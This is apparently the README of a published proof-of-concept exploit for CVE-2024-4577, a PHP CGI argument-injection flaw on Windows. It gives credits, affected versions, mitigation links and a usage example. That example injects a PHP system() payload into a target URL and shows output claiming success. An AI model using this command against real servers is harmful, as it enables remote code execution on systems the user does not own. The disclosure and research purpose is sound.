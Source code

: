 # CVE-2024-4577
A Proof of Concept developed by [@watchTowr](https://twitter.com/watchtowrcyber) exploiting the PHP CGI Argument Injection vulnerability (CVE-2024-4577) to obtain RCE on a vulnerable PHP version running in a Windows environment. [Detailed technical analysis for this vulnerability](https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/)

<p align="center">
  <img src="/poc.gif" />
</p>


# Orange Tsi 🍊

This vulnerability was found by [Orange Tsai (@orange_8361)](https://x.com/orange_8361) of [DEVCORE (@d3vc0r3)](https://x.com/d3vc0r3). Make sure to follow his outstanding research, our role was to only recreate and develop the exploit for this issue.

# PoC || GTFO
```
python watchTowr-vs-php_cve-2024-4577.py -c "<?php system('calc');?>" -t http://192.168.253.132/test.sina
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/

        watchTowr-vs-php_cve-2024-4577.py
        (*) PHP CGI Argument Injection (CVE-2024-4577) discovered by Orange Tsai (@orange_8361) of DEVCORE (@d3vc0r3)
          - Aliz Hammond, watchTowr (aliz@watchTowr.com)
          - Sina Kheirkhah (@SinSinology), watchTowr (sina@watchTowr.com)
        CVEs: [CVE-2024-4577]
(^_^) prepare for the Pwnage (^_^)

(+) Exploit was successful
```

# Affected Versions

based on the original [blog post by DEVCORE (@d3vc0r3)](https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/) This vulnerability affects all versions of PHP installed on the Windows operating system:
```
PHP 8.3 < 8.3.8
PHP 8.2 < 8.2.20
PHP 8.1 < 8.1.29
```
Since the branch of PHP 8.0, PHP 7, and PHP 5 are End-of-Life, and are no longer maintained anymore, server admins can refer to the Am I Vulnerable section [HERE](https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/) to find temporary patch recommendations in the Mitigation Measure section.

# Exploit authors
[Aliz (@AlizTheHax0r)](https://x.com/AlizTheHax0r) and [Sina Kheirkhah (@SinSinology)](https://x.com/SinSinology) of [watchTowr (@watchtowrcyber)](https://twitter.com/watchtowrcyber) 

# Follow [watchTowr](https://watchTowr.com) Labs 
For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://twitter.com/watchtowrcyber
- https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/
- https://blog.orange.tw/2024/06/cve-2024-4577-yet-another-php-rce.html
- https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/

